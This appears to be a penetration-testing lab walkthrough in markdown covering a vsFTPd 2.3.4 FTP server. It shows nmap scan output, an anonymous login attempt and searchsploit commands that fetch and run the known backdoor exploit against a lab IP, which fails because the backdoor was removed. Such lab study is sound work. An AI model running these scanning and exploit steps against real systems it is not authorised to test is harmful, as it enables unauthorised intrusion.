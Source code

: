 ## Targeting

### [vsFTPd](../3-metasploit/ftpd-msf-exp.md)

```bash
nmap -sV -sC -p 21 10.2.20.205
```

```bash
21/tcp open  ftp     vsftpd 2.3.4
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.24.6
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: PASV IP 172.17.0.2 is not the same as 10.2.20.205

```

- Try `anonymous`:`anonymous` with FTP

```bash
ftp 10.2.20.205

# With anonymous access no files can be accessed
```

![](assets/image-20230424142914147.png)

- **Exploit vsFTPd**

```bash
searchsploit vsftpd
	vsftpd 2.3.4 - Backdoor Command Execution | unix/remote/49757.py
searchsploit -m 49757
vim 49757.py
chmod +x 49757.py
python3 49757.py 10.2.20.205
# [Errno 111] Connection refused
# Backdoor on port 6200 was removed by the administrator

# Description of the unix/ftp/vsftpd_234_backdoor Metasploit module:
#  This module exploits a malicious backdoor that was added to the 
#  VSFTPD download archive. This backdoor was introduced into the 
#  vsftpd-2.3.4.tar.gz archive between June 30th 2011 and July 1st 2011 
```